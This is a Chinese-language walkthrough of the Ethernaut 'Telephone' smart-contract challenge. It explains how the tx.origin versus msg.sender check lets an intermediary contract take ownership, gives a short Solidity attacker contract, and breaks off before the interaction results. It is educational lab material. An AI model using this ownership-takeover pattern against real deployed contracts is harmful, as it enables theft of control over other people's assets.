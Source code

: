 <hr>

# 4. Telephone
## 创建实例并分析
根据先前的步骤，创建合约实例，其合约地址为`0xba9405B2d9D1B92032740a67B91690a70B769221`。
分析其合约源码，要求变更合约所有权，其突破口在于`changeOwner`函数，函数代码如下所示：

```
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```
其先决条件在于`tx.origin`与`msg.sender`不相同，那我们应对此展开研究。
- `tx.origin`会遍历整个调用栈并返回最初发送调用（或交易）的帐户的地址。
- `msg.sender`为直接调用智能合约功能的帐户或智能合约的地址

两者区别在于如果同一笔交易内有多笔调用，`tx.origin`保持不变，而`msg.sender`将会发生改变。我们将以此为根据，编写智能合约，将该合约作为中间人展开攻击。

## 攻击合约编写
同样在remix中编写合约，合约代码如下，与上一关卡类似，通过`interface`接口创建合约接口实例，我们则通过`attack函数执行攻击`：

```
pragma solidity ^0.6.0;

interface TelephoneInterface {
    function changeOwner(address _owner) external;
}



contract TelephoneAttacker {

    TelephoneInterface tele;

    constructor(address _addr) public {
        tele = TelephoneInterface(_addr);
    }

    function attack(address _owner) public {
        tele.changeOwner(_owner);
    }

}
```

## 合约交互
初始时，合约所有权尚未得到。
